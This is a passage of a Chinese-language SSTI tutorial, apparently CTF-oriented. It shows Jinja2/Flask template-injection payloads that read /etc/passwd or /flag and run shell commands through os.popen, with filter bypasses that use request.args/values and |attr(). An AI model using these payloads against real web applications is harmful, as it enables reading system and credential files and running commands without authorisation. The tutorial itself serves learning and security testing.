等同于：

```python
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

如果过滤了`args`，可以将其中的`request.args`改为`request.values`，POST和GET两种方法传递的数据`request.values`都可以接收。

### 过滤了下划线\_\_

#### **利用request对象绕过**

和上面一样，我们这里利用request绕过

```python
{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[40]('/flag').read()}}&class=__class__&bases=__bases__&subclasses=__subclasses__
{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[77].__init__.__globals__['os'].popen('ls /').read()}}&class=__class__&bases=__bases__&subclasses=__subclasses__ 
```

等同于：

```python
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

很厉害的一种方法，利用传其他参可以绕过很多针对这一处参数的过滤

### 过滤了点 .

#### **利用 `|attr()` 绕过（适用于flask）**

如果 `.` 也被过滤，且目标是JinJa2（flask）的话，可以使用原生JinJa2函数`attr()`，即：

```python
().__class__   相当于  ()|attr("__class__")
```

示例：

```python
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls /")|attr("read")()}}
```

等同于：

```python
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

其实这个函数是一个 `attr()` 过滤器，它只查找属性，获取并返回对象的属性的值，过滤器与变量用管道符号（ `|` ）分割，它不止可以绕过点。

`|attr()` 配合其他姿势可同时绕过双下划线 `__` 、引号、点 `.` 和 `[` 等。
